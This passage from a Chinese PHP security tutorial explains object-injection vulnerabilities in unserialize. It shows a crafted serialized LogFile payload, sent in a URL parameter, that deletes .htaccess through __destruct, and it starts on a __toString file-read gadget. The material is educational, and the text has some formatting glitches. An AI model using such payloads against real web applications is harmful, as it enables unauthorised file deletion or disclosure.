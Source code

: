 你看，这个代码调用了 “LogClass” 类，并且有一个 “unserialize” 值是我们可以注入的。

所以构造类似这样的东西：

script.php?usr_serialized=O:4:"User":2:{s:3:"age";i:20;s:4:"name";s:4:"John”;}究竟发生了什么呢，因为输入是可控的，所以我们可以构造任意的序列化对象，比如：

```php
    <?php
    $obj = new LogFile();
    $obj->filename = '.htaccess';echo serialize($obj) . '<br />';
    ?>
```

这个会输出

    O:7:"LogFile":1:{s:8:"filename";s:9:".htaccess";} 
    __destruct deletes ".htaccess" file.

现在我们将构造过后的序列化对象发送给刚才的脚本：

    script.php?usr_serialized=O:7:"LogFile":1:{s:8:"filename";s:9:".htaccess”;}

这会输出

    __destruct deletes ".htaccess" file.

现在 `.htaccess` 已经被干掉了，因为脚本结束时 `__destruct`会被调用。不过我们已经可以控制“LogFile”类的变量啦。

这就是漏洞名称的由来：变量可控并且进行了unserialize操作的地方注入序列化对象，实现代码执行或者其他坑爹的行为。

虽然这不是一个很好的例子，不过我相信你可以理解这个概念，unserialize自动调用 `__wakeup` 和 `__destruct`，接着攻击者可以控制类变量，并且攻击web程序。

## 0×06 常见的注入点

先不谈 `__wakeup` 和 `__destruct`，还有一些很常见的注入点允许你利用这个类型的漏洞，一切都是取决于程序逻辑。

打个比方，某用户类定义了一个__toString为了让应用程序能够将类作为一个字符串输出（echo $obj） ,而且其他类也可能定义了一个类允许__toString读取某个文件。

```php
    <?php
    // … 一些include ...class FileClass
    {
    // 文件名public $filename = 'error.log';
    
    //当对象被作为一个字符串会读取这个文件
    
    public function __toString()
    {
    return file_get_contents($this->filename);
    }
    }
    
    // Main User class
    
    class User
    {
    // Class data
    
    public $age = 0;
    public $name = '';
    
    // 允许对象作为一个字符串输出上面的data
    
    public function __toString()
    {
    return 'User ' . $this->name . ' is ' . $this->age . ' years old. <br />';
    }
    }
    
```